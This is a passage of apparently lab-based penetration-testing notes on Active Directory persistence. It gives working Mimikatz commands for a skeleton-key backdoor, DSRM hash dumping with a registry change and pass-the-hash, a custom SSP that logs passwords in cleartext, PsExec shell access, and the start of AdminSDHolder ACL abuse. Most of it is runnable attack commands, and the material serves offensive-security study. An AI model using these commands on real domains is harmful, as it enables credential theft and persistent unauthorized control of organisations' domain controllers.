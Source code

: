  * `Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName dcorp-dc.dollarcorp.moneycorp.local`
  * Now it is possible to access any machine with a valid username and the password 'mimikatz'. For example, `Enter-PSSession -ComputerName dcorp-dc -Credential dcorp\Administrator` When prompted, enter `mimikatz` as password
  * Persists until lsass is restarted/DC is rebooted

### Persistence - Directory Services Restore Mode (DSRM)
* There is a local admin on every DC called 'Administrator' whose password is DSRM password (aka SafeModePassword). This password is required when a server is promoted to DC and is rarely changed. This user is not able to log on over the network.
* After altering the configuration of the DC, it is possible to pass the NTLM hash of this user to access the DC
* Persists a very long time, until this password is changed, which is almost never)
* As Domain Admin on DC, execute `Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"'` to retrieve Administrator has from the SAM
* Before the hash can be used, Logon Behaviour for DSRM account needs to be created or changed: `New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD` or `Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2`
* Now we can access the DC in the future as this user: `Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dcorp-dc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86f /run:powershell.exe"'` Notice particularly the domain is the machine name
* In the resulting powershell session we can do things like `ls \\dcorp-dc\c$` or `C:\ad\external\PsExec64.exe \\dcorp-dc cmd` to get file and shell access
* Note this is a risky attack that degrades the security of the target.

### Persistence - Custom Security Support Provider (SSP)
* SSP - a DLL which provides ways for an application to obtain an authenticated connection. Some SSP packages from MS are NTLM, Kerberos, Wdigest, CredSSP
* Mimikatz provides a custom SSP - `mimilib.dll`. This SSP logs passwords in clear text on the target server
* Simple Way: `invoke-mimikatz -command '"misc::memssp"'` - No reboot required. BUT not entirely stable with Server 2016
* Harder Way
  * Drop mimilib.dll to system32
  * Add it to packages using ps (*not tested*)
     ```powershell
      $packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages'| select -ExpandProperty 'Security Packages'
      $packages += "mimilib"
      Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages 
      Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages
     ```
  * Then reboot
* Logons on the DC are logged to C:\Windows\system32\kiwissp.log
* Note this is a risky attack that degrades the security of the target. It is also very noisy.

### Persistence Using ACLs - AdminSDHolder
* AdminSDHolder - container used to control permissions using an ACL for certain built-in privileged groups (called Privileged Groups)
* Security Descriptor Propagator (SDPROP) runs every hour and compares the ACL of protected groups and members with the ACL of AdminSDHolder and any differences are overwritten on the object ACL by the ACL of AdminSDHolder
* Protected Groups: Account Operators, Enterprise Admins, Backup Operators, Domain Controllers, Server Operators, Read-only Domain Controllers, Print Operators, Schema Admins, Domain Admins, Administrators, Replicator
* How to abuse certain protected groups:
  * Account Operators - can modify nested groups within DA/EA/BA
  * Backup Operators - backup GPO, edit to add SID of controlled account to privileged group and Restore